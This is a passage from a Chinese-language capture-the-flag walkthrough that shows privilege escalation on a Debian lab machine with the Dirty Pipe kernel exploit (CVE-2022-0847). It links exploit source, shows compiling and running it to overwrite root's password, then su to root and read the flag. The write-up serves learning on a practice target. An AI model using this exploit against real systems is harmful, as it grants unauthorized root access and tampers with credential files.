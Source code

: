 另外一个用户同样没有权限，所以需要想办法进行提权。

## 1. Dirty_Pipe

第一种方式还是使用内核提权漏洞，检查内核版本和gcc版本：

```shell
travis@debian:~$ uname -a
Linux debian 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64 GNU/Linux
travis@debian:~$ gcc --version

gcc (Debian 10.2.1-6) 10.2.1 20210110
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

Debian系统，内核版本为5.10，算是比较高的了。但是可以使用22年的dirty pipe进行提权。

vim编辑并gcc编译[exp](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c)，然后运行：

```shell
travis@debian:~$ ls
dirty_pipe  dirty_pipe.c  user.txt
travis@debian:~$ ./dirty_pipe
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
system() function call seems to have failed :(
```

提示我们失败了，但是需要注意的是，exp已经成功修改了root的password为`aaron`，所以我们直接su命令然后输入该密码即可进入root的shell：

```shell
travis@debian:~$ su
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -la /root
total 40
drwx------  3 root root 4096 Sep 25  2021 .
drwxr-xr-x 18 root root 4096 Nov  8 01:34 ..
-rw-------  1 root root   20 Sep 25  2021 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Sep 25  2021 .local
-rw-------  1 root root  647 Sep 25  2021 .mysql_history
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root  217 Sep 25  2021 .wget-hsts
-rw-r--r--  1 root root   45 Sep 25  2021 root.txt
-rw-r--r--  1 root root  260 Sep 25  2021 system.info
# cat /root/root.txt
ICA{Next_Generation_Self_Renewable_Genetics}
```

（比较可惜的是，这个shell没有自动补全，而且修改root用户密码也比较属于高危操作。）
